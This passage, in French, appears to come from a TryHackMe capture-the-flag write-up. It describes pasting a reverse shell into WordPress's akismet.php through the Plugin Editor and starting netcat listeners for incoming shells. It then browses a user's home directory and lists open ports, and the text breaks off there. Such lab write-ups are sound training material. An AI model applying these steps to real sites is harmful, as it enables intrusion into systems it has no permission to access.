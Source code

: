 On va dans plugins-\>Plugin Editor-\> akismet.php  
On copie le contenu du shell dans akismet.php.  

Puis en bas de la page on fait update file.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour se connecter au reverse shell.   

![page9](./Task1-09.png) 

On lance le reverse shell.   

```bash
$ cd /home/veronica
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
__pycache__
base.py
examples.desktop
ghidra_9.0
user.txt

$ cat user.txt
cat: user.txt: Permission denied

```
On a un shell mais toujours pas le droit de lire le fichier user.txt.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1337
listening on [any] 1337 ...
```

On écoute un autre port on va refaire un reverse shell avec les droits de veronica.   


```bash
$ cd ghidra_9.0
$ netstat -ln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:18001         0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN     
tcp6       0      0 :::45029                :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::36337                :::*                    LISTEN     
tcp6       0      0 :::18002                :::*                    LISTEN     
tcp6       0      0 ::1:631                 :::*                    LISTEN     
tcp6       0      0 :::443                  :::*                    LISTEN     
tcp6       0      0 :::443                  :::*                    LISTEN     
tcp6       0      0 :::443                  :::*                    LISTEN     
udp        0      0 0.0.0.0:32796           0.0.0.0:*                          
```